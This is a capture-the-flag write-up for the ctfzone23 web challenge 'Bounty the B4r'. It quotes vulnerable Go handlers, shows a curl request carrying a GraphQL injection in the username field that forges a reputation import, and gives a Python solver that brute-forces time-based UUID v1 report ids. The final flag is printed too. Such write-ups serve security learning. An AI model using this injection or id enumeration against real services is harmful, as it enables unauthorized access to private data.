 ```yaml
---
title: "ctfzone23 web/Bounty the B4r"
publishDate: "13 Aug 2023"
description: "Author: cpp.dog"
tags: ["web", "ctfzone23"]
---
```


#### Description
BB stands for Bounty the B4r. Our highly skilled specialists developed the best BB platform ever with a magnificent UI design. We’re waiting for you to report cool findings and let us pay you some $$ or chocolate

#### Code inspection
Here's the most important code of our challenge.

`golang/db/database.go`
```go
func (db Database) InitFlagReport(flag string) error {
  ...
	program := BBProgram{
		ID:   prUUID.String(),
		Name: "CTFZone Private Program",
		Type: ProgramTypePrivate,
	}

	res = db.Impl.Create(&program)
	if res.Error != nil || res.RowsAffected != 1 {
		return fmt.Errorf("error inserting program to the db: %v", res.Error)
	}

	_, err = db.CreateReport(
		"Very Secret Report~",
		"Flag: "+flag,
		program.ID,
		"Critical",
		"CWE-1",
		7446744073709551610,
	)
  ...
}
```

`golang/controller/program.go`
```go
func (s *server) PostProgramPUuidJoin(w http.ResponseWriter, r *http.Request, pUuid uuid.UUID) {
	...
	if bbProgram.Type == ProgramTypePrivate && user.Reputation < 100000 {
		api.HandleError(fmt.Errorf("low reputation, try harder"), w)
		return
	}
  ...
}
```

`golang/controller/report.go`
```go
func (s *server) GetReportRUuid(w http.ResponseWriter, r *http.Request, rUuid uuid.UUID, params api.GetReportRUuidParams) {
  ...
	if bbProgram.Type == ProgramTypePrivate {
		var progMembers db.ProgramMembers
		result = s.db.Impl.First(&progMembers, "user_id = ? AND program_id = ?", userID, bbProgram.ID)
		if result.Error != nil || result.RowsAffected != 1 {
			api.HandleError(fmt.Errorf("you're not a member of this program"), w)
			return
		}
	}
  ...
}
```
`golang/controller/user.go`
```golang
const userDataQery = `query {
	user(username: "%s") {
	  id
	  username
	  name
	  intro
	  reputation
	  rank
	}
}`
...
func verifyValidator(v string) bool {
	m, err := regexp.MatchString("^[a-zA-Z0-9=]{30,40}$", v)
	if err != nil {
		return false
	}
	if m {
		return true
	} else {
		return false
	}
}

func (s *server) PostUserImportReputation(w http.ResponseWriter, r *http.Request) {
  ...
  postBody, _ := json.Marshal(map[string]string{
      "query": fmt.Sprintf(userDataQery, *req.Username),
  })
  resp, err := http.Post("https://hackerone.com/graphql", "application/json", bytes.NewBuffer(postBody))
  ...
  if rd.Data.User.Intro != *req.Validator {
      api.HandleError(fmt.Errorf("incorrect validator"), w)
      return
  }
```
Looks like we need to abuse GraphQL injection for something, let's take a look at hackerone's response for a random h1 user.

```bash
curl -X POST -d `{"query": "query { user(username: \"d0xing\") { id username name intro reputation rank } }"}` -H "Content-Type: application/json" https://hackerone.com/graphql


{
    "data": {
        "user": {
            "id": "Z2lkOi8vaGFja2Vyb25lL1VzZXIvOTY1NTA=",
            "username": "d0xing",
            "name": "d0xing",
            "intro": "",
            "reputation": 103907,
            "rank": 2
        }
    }
}
```

The `id` field looks like it can be used as a `validator`, so we can abuse this to get 100k rating on the target site. 

```bash
curl -X POST -d '{
    "username":"d0xing\") { intro:id username reputation rank } u:user(username: \"d0xing", 
    "validator": "Z2lkOi8vaGFja2Vyb25lL1VzZXIvOTY1NTA="
  }' \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer [REDACTED]" \
  https://bounty-the-b4r.ctfz.one/api/user/import_reputation
```

Now we can join `CTFZone Private Program` program without problems. Our new task is to find the report id. The only thing we know is the uuid of programs, and the time report was generated.

```json
[
    {
        "id": "ad1cec14-3830-11ee-b365-0255ac100030",
        "name": "CTFZone Private Program",
        "programType": 1
    },
    {
        "id": "ad1d822a-3830-11ee-b365-0255ac100030",
        "name": "Hooli Public BB Program",
        "programType": 0
    }
]

{
    "published": 1691749220902427748,
    "severity": "Critical",
    "title": "Very Secret Report~"
}
```
So, we need to iterate over the v1 uuid between `ad1cec14-3830-11ee-b365-0255ac100030` and `ad1d822a-3830-11ee-b365-0255ac100030`, but checking each id is not possible due to proof of work. Let's check how uuids are created. 

```go
// A Time represents a time as the number of 100's of nanoseconds since 15 Oct 1582.
timeLow := uint32(now & 0xffffffff)
```

Since we know the report creation time in nanoseconds, we can easily reduce the search range. 

Corresponding uuid v1: `ad1cec14-3830-11ee-b365-0255ac100030`. Now we are ready to get the flag.

#### Solver code
```py
import hashlib
import requests
import json

ALPHABET = "".join([chr(i) for i in range(32, 128)])

FROM_UUID = int("ad1cec14", base=16)
TO_UUID = int("ad1d822a", base=16)
SUFFIX = "-3830-11ee-b365-0255ac100030"

def get_pow(pref, hash): 
  for c in ALPHABET:
    for c1 in ALPHABET:
        for c2 in ALPHABET:
            for c3 in ALPHABET:
                if hashlib.md5((pref + c + c1 + c2 + c3).encode()).hexdigest() == hash:
                    return (pref + c + c1 + c2 + c3)
  return None
for N in range(FROM_UUID, TO_UUID):
  s = requests.get("https://bounty-the-b4r.ctfz.one/api/user/info", headers={
    "Authorization": "Bearer [REDACTED]"
  })
  data = s.json()

  pow = get_pow(data["pow"], data["md5"])

  url = f"https://bounty-the-b4r.ctfz.one/api/report/{hex(N)[2:]}{SUFFIX}?pow={pow}"
  print(f"Trying {url}...")

  r = requests.get(url, headers={
    "Authorization": "Bearer [REDACTED]"
  })

  if r.status_code == 400:
    continue

  print(json.dumps(r.json(), indent=4, sort_keys=True))
```

#### Flag
`CTFZone{b0un7y_th3_b4r_th3_t4st3_0f_bug5}`